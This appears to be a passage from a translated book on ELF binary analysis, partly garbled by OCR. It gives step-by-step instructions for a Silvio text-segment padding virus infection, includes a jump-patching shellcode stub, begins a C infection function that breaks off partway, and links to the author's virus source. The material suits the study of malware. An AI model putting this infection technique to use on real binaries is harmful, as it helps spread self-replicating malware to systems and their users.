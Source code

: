 1.  在ELF 文件头中将`ehdr->e_shoff`增加`PAGE_SIZE`
2.  定位文本片段`phdr`:
    1.  修改寄生虫的进入点:

        ```sh
        ehdr->e_entry = phdr[TEXT].p_vaddr + phdr[TEXT].p_filesz
        ```

    2.  增加`phdr[TEXT].p_filesz`寄生虫的长度。
    3.  增加`phdr[TEXT].p_memsz`寄生虫的长度。
3.  对于每一个片段在寄生虫之后的`phdr`，增加`phdr[x].p_offset``PAGE_SIZE` 字节。
4.  在文本片段中找到最后的`shdr`，然后增加`shdr[x].sh_size`寄生虫的长度(因为这是寄生虫将存在的部分)。
5.  寄生虫插入后存在的每`shdr`，增加`shdr[x].sh_offset``PAGE_SIZE`。
6.  Insert the actual parasite code into the text segment at (`file_base + phdr[TEXT].p_filesz`).

    ### 注意事项

    计算中使用原`p_filesz`值。

    ### 提示

    更合理的做法是创建一个反映所有更改的新二进制文件，然后将其复制到旧二进制文件上。 这就是我插入寄生代码的意思:重写包含寄生代码的新二进制文件。

ELF 病毒实现这种感染技术的一个很好的例子是我在 2008 年编写的*lpv*病毒。 为了提高效率，我将不在这里粘贴代码，但是可以在[http://www.bitlackeys.org/projects/lpv.c](http://www.bitlackeys.org/projects/lpv.c)中找到。

### 一个文本段填充感染的例子

一个文本段填充感染(也称为 Silvio 感染)可以通过一些示例代码来最好地演示，在这里我们看到如何在插入实际的寄生虫代码之前正确地调整 ELF 头。

#### 调整 ELF 头

```sh
#define JMP_PATCH_OFFSET 1 // how many bytes into the shellcode do we patch
/* movl $addr, %eax; jmp *eax; */
char parasite_shellcode[] =
        "\xb8\x00\x00\x00\x00"      
        "\xff\xe0"                  
;

int silvio_text_infect(char *host, void *base, void *payload, size_t host_len, size_t parasite_len)
{
        Elf64_Addr o_entry;
        Elf64_Addr o_text_filesz;
        Elf64_Addr parasite_vaddr;
        uint64_t end_of_text;
        int found_text;

        uint8_t *mem = (uint8_t *)base;
        uint8_t *parasite = (uint8_t *)payload;

        Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;
        Elf64_Phdr *phdr = (Elf64_Phdr *)&mem[ehdr->e_phoff];
        Elf64_Shdr *shdr = (Elf64_Shdr *)&mem[ehdr->e_shoff];

        /*
         * Adjust program headers
         */
        for (found_text = 0, i = 0; i < ehdr->e_phnum; i++) {
                if (phdr[i].p_type == PT_LOAD) {
                        if (phdr[i].p_offset == 0) {

                                o_text_filesz = phdr[i].p_filesz;
                                end_of_text = phdr[i].p_offset + phdr[i].p_filesz;
                                parasite_vaddr = phdr[i].p_vaddr + o_text_filesz;

```
